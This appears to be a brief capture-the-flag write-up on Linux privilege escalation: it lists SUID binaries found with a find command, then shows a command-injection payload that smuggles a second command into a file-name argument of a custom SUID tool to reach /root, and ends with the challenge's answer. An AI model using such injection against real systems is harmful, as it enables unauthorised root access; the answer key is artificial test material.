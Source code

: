 # Linux PrivEsc

## Findings

1. Finding SUID executables (`find / -perm -u=s -type f 2>/dev/null`)

   ```sh
   /usr/bin/chfn
   /usr/bin/chsh
   /usr/bin/mount
   /usr/bin/newgrp
   /usr/bin/su
   /usr/bin/gpasswd
   /usr/bin/umount
   /usr/bin/passwd
   /usr/bin/simplecopy
   ```

2. Command Injection

   ```sh
   simplecopy "a.txt;cd /root;" "./runmetoanswer"
   ```

## Answer

```sh
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```
